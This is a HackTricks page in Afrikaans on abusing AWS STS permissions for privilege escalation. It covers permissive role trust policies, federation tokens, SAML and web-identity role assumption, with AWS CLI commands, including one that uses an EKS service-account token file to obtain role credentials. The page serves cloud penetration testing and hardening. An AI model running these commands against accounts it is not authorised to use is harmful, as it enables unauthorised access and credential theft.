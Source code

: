 # AWS - STS Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## STS

### `sts:AssumeRole`

Elke rol word geskep met 'n **rol vertrouensbeleid**, hierdie beleid dui aan **wie die geskepte rol kan aanvaar**. As 'n rol van die **dieselfde rekening** sê dat 'n rekening dit kan aanvaar, beteken dit dat die rekening toegang tot die rol sal hê (en moontlik **privesc**).

Byvoorbeeld, die volgende rol vertrouensbeleid dui aan dat enigiemand dit kan aanvaar, daarom **sal enige gebruiker in staat wees om privesc** na die toestemmings wat met daardie rol geassosieer is.
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
U kan 'n rol naboots deur:
```bash
aws sts assume-role --role-arn $ROLE_ARN --role-session-name sessionname
```
**Potensiële Impak:** Privesc na die rol.

{% hint style="danger" %}
Let daarop dat in hierdie geval die toestemming `sts:AssumeRole` **aangedui moet word in die rol om te misbruik** en nie in 'n beleid wat aan die aanvaller behoort nie.\
Met een uitsondering, om 'n **rol van 'n ander rekening** te **aanneem**, moet die aanvaller rekening **ook** die **`sts:AssumeRole`** oor die rol hê.
{% endhint %}

### **`sts:GetFederationToken`**

Met hierdie toestemming is dit moontlik om akrediteer te genereer om enige gebruiker na te boots:
```bash
aws sts get-federation-token --name <username>
```
Dit is hoe hierdie toestemming veilig gegee kan word sonder om toegang te gee om ander gebruikers na te volg:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:GetFederationToken",
"Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
}
]
}
```
### `sts:AssumeRoleWithSAML`

'n Vertrouensbeleid met hierdie rol verleen **gebruikers wat via SAML geverifieer is toegang om die rol na te volg.**

'n Voorbeeld van 'n vertrouensbeleid met hierdie toestemming is:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "OneLogin",
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::290594632123:saml-provider/OneLogin"
},
"Action": "sts:AssumeRoleWithSAML",
"Condition": {
"StringEquals": {
"SAML:aud": "https://signin.aws.amazon.com/saml"
}
}
}
]
}
```
Om geloofsbriewe te genereer om die rol na te volg, kan jy iets soos gebruik:
```bash
aws sts  assume-role-with-saml --role-arn <value> --principal-arn <value>
```
Maar **verskaffers** mag hul **eie gereedskap** hê om dit makliker te maak, soos [onelogin-aws-assume-role](https://github.com/onelogin/onelogin-python-aws-assume-role): 

{% code overflow="wrap" %}
```bash
onelogin-aws-assume-role --onelogin-subdomain mettle --onelogin-app-id 283740 --aws-region eu-west-1 -z 3600
```
{% endcode %}

**Potensiële Impak:** Privesc na die rol.

### `sts:AssumeRoleWithWebIdentity`

Hierdie toestemming gee toestemming om 'n stel tydelike sekuriteitsakkrediteer te verkry vir **gebruikers wat in 'n mobiele, webtoepassing, EKS...** geverifieer is met 'n webidentiteitsverskaffer. [Leer meer hier.](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html)

Byvoorbeeld, as 'n **EKS-diensrekening** in staat moet wees om **'n IAM-rol na te volg**, sal dit 'n token in **`/var/run/secrets/eks.amazonaws.com/serviceaccount/token`** hê en kan dit **die rol aanvaar en akkrediteer verkry** deur iets soos: 

{% code overflow="wrap" %}
```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::123456789098:role/<role_name> --role-session-name something --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token
# The role name can be found in the metadata of the configuration of the pod
```
{% endcode %}

### Federasie Misbruik

{% content-ref url="../aws-basic-information/aws-federation-abuse.md" %}
[aws-federation-abuse.md](../aws-basic-information/aws-federation-abuse.md)
{% endcontent-ref %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

